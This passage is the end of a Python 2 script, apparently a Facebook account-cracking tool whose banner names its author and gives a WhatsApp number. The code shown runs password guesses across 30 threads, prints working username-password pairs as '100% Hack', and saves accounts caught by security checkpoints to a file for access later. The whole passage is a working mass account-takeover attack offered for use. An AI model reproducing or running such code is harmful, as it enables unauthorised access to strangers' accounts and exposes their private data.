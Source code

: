 																print '\x1b[1;91m100% Hack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;91m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;93mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;93m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mKali.Linux\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
	print "  \033[1;93m«---•◈•---Developed By love-Hacker--•◈•---»" #Dev:love_hacker
	print '\033[1;91m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 World.py)↩\033[1;92m....'
	print"\033[1;91mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;97m/\033[1;95m"+str(len(cekpoint))
	print """
             
             ╔══╗░░░░╔╦╗░░╔═════╗    lovehacker
             ║╚═╬════╬╣╠═╗║░▀░▀░║    BlackMafia
             ╠═╗║╔╗╔╗║║║╩╣║╚═══╝║    WhatsApp
             ╚══╩╝╚╝╚╩╩╩═╝╚═════╝    03094161457
             Checkpoint ID Open After 7 Days

•\033[1;91m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.
: \033[1;93m .....lovehacker  Kali.linux....... \033[1;91m :
•\033[1;91m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.' 
                WhatsApp Num
              \033[1;93m +923094161457"""
	
	raw_input("\n\033[1;92m[\033[1;91mBack\033[1;96m]")
	menu()

if __name__ == '__main__':
	login()

